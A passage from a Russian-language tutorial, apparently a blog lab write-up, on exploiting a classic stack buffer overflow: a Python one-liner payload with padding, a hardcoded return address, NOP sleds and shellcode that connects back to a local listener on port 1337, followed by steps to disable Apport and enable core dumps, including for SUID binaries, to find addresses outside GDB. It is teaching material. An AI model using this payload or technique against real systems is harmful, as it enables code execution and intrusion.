 На языке питоновских однострочников эксплоит будет выглядеть так.

```python
python -c 'print "A"*132 + "\xbf\xff\xed\xcc"[::-1] + "\x90"*32 + "\xbe\xaf\x6c\xe1\x7e\xd9\xe5\xd9\x74\x24\xf4\x5f\x31\xc9\xb1\x12\x83\xc7\x04\x31\x77\x0e\x03\xd8\x62\x03\x8b\x17\xa0\x34\x97\x04\x15\xe8\x32\xa8\x10\xef\x73\xca\xef\x70\xe0\x4b\x40\x4f\xca\xeb\xe9\xc9\x2d\x83\x96\x29\xce\x52\x01\x28\xce\x51\xe8\xa5\x2f\xe9\x6c\xe6\xfe\x5a\xc2\x05\x88\xbd\xe9\x8a\xd8\x55\x9c\xa5\xaf\xcd\x08\x95\x60\x6f\xa0\x60\x9d\x3d\x61\xfa\x83\x71\x8e\x31\xc3" + "\x90"*32 + "A"'
```

А стек после внедрения шелл-кода примет следующий вид.

[![gdb-peda-stack-layout-2.png](/assets/images/pwn-kingdom/classic-stack-overflow/gdb-peda-stack-layout-2.png)](/assets/images/pwn-kingdom/classic-stack-overflow/gdb-peda-stack-layout-2.png)
{:.center-image}

Здесь практически все то же самое, что и на первом рисунке анализа стека за исключением того, что полезная нагрузка теперь находится после ESP. Но при этом мы также «прыгаем» ровно на середину предваряющего шелл-код NOP-среза (адрес `0xbfffedcc`), а зеленым снова выделено заполнение стека junk-символами «A»: `1 байт = Доступная_память_после_ESP - NOP_срез*2 - Шелл_код = 160 - 32*2 - 95`.

Оставив локального слушателя на 1337 порту, я запустил программу, подав на вход вредоносную строку, и получил свой шелл.

[![gdb-peda-dash-id-2.png](/assets/images/pwn-kingdom/classic-stack-overflow/gdb-peda-dash-id-2.png)](/assets/images/pwn-kingdom/classic-stack-overflow/gdb-peda-dash-id-2.png)
{:.center-image}

## Эксплоит без GDB

При работе программы не из-под отладчика адреса используемой памяти смещаются, поэтому вредоносная строка не сработает без корректировки адреса возврата. Для того, чтобы узнать новое значения интересующего нас адреса, воспользуемся дампом ядра.

Начиная с 16.04, в Ubuntu по умолчанию используется кошмарный сервис [Apport](https://wiki.ubuntu.com/Apport) для управления созданием отчетов о падении программ, включая дампы ядра. Кошмарный, потому что не дает управлять конфигурацией генерации дампов привычными способами, поэтому для начала избавимся от него.

```
$ sudo vi /etc/default/apport  # установить значение "enabled" в "0"
$ sudo systemctl stop apport
```

После этого внесем небольшие изменения в стандартное поведение создания дампов (первые три команды должны быть выполнены от имени su).

```
# echo 1 > /proc/sys/kernel/core_uses_pid
# echo '/tmp/core-%e-%s-%u-%g-%p-%t' > /proc/sys/kernel/core_pattern
# echo 2 > /proc/sys/fs/suid_dumpable
$ ulimit -c unlimited
```

Что здесь происходит по строкам:

1. Установка «безлимита» на размер создаваемых дампов.
2. Добавление к имени файла дампа идентификатора PID процесса.
3. Изменение общего шаблона имени файла дампа (описание форматов можно найти [в мануле](http://man7.org/linux/man-pages/man5/core.5.html) core).
4. Включение создания дампов для исполняемых файлов с SUID-битом.


[//]: # (2019-09-20)